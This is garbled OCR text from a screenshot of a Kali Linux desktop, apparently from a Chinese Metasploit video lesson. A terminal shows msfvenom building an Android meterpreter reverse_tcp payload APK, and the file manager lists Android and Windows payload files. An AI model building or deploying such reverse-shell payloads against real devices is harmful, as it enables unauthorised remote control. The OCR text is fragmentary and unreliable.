 hd Sia Dencrieton
文件（F） 编辑（E） 视图（V） 转到（G） 帮助（H）
4
音量加
/home/hongke/
2dt nadat a0k 20000700151419w EL 2025-67061457 72
Ethernet)
Apache/2443 (Doun) Server at 192. 168.3229 Port 80
d-
设备
音量减
文件系统
Kali Linux am
文件助手
位置
公共
模板
视频
图片
hongke
桌面
D
v
安装APK
0
collisions 0
回收站文档
文档
下载
音乐
桌面
多开器
音乐
关闭应用
图片
APK
视频
下载
android_payload.a windwos_payload.
exe
网络
浏览网络
10 个项目：82.0 KIB（83，990 字节），可用空间：92.6 GIB
collisions 0
hongke@kali:~$ msfvenom -p android/meterpreter/reverse_tcp lhost=192. oid_payload.apk
andr
[-] No platform was selected, choosing Msf::Module::Platform::Android
[-] No arch selected, selecting arch: dalvik from the payload No encoder specified, outputting raw payload
Payload size: 10188 bytes
hongke@kali:~$
OBS 25.0.8 (64-b
课程内容
hongkeketang
37.Metasploit： 生
0
夜神模拟器
